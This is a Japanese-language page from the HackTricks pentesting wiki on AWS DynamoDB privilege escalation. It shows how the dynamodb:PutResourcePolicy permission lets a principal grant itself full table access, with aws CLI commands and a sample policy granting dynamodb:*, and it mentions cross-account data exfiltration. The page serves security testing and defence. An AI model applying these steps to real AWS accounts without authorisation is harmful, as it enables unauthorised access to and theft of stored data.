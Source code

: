 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

dynamodbに関する詳細情報は、以下を確認してください：

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy` およびオプションで `dynamodb:GetResourcePolicy`

2024年3月以降、AWSはDynamoDBに対して*リソースベースのポリシー*を提供しています（[AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)）。

したがって、テーブルに対して `dynamodb:PutResourcePolicy` を持っている場合、自分自身または他の任意のプリンシパルにテーブルへの完全なアクセスを付与できます。

`dynamodb:PutResourcePolicy` をランダムなプリンシパルに付与することは、管理者が `dynamodb:Put*` を付与することでプリンシパルがデータベースにアイテムを追加できるだけだと考える場合や、2024年3月以前にその権限セットを付与した場合に、しばしば偶然に発生します...

理想的には、他の潜在的に重要な権限を上書きせず、必要な追加権限のみを注入するために、`dynamodb:GetResourcePolicy` も持っているべきです：
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
現在のポリシーを取得できない場合は、テーブルに対してあなたのプリンシパルに完全なアクセスを付与するこのポリシーを使用してください：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
もしカスタマイズが必要な場合、すべての可能なDynamoDBアクションのリストは次のとおりです: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html)。また、リソースベースのポリシーを介して許可できるすべてのアクションのリスト *およびこれらのうちどれがクロスアカウントで使用できるか（データの流出を考えてください！）*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

さて、ポリシードキュメント `policy.json` が準備できたので、リソースポリシーを設定します:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
今、必要な権限を持っているはずです。

### ポストエクスプロイト

私の知る限り、AWSの`dynamodb`権限を持っているだけで権限を昇格させる直接的な方法は**他にありません**。テーブルから**機密情報**を**読み取る**ことができ（AWSの資格情報を含む可能性があります）、テーブルに**情報を書き込む**ことができ（他の脆弱性を引き起こす可能性があります、例えばlambdaコードインジェクションなど...）ますが、これらのオプションはすでに**DynamoDBポストエクスプロイトページ**で考慮されています：

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: データストリームを悪用してデータを読む

{{#include ../../../banners/hacktricks-training.md}}
